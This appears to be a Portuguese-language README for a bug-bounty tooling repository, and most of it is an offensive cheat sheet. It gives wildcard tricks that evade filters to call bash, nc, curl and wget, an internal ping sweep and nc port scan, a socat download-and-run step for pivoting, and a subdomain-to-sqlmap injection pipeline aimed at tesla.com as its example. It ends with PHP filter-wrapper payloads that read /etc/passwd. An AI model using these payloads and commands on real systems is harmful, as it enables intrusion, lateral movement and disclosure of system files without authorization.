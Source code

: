 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt

<h1>Filters PHP</h1>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd</br>
php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=</br>
php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala</br>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd</br>
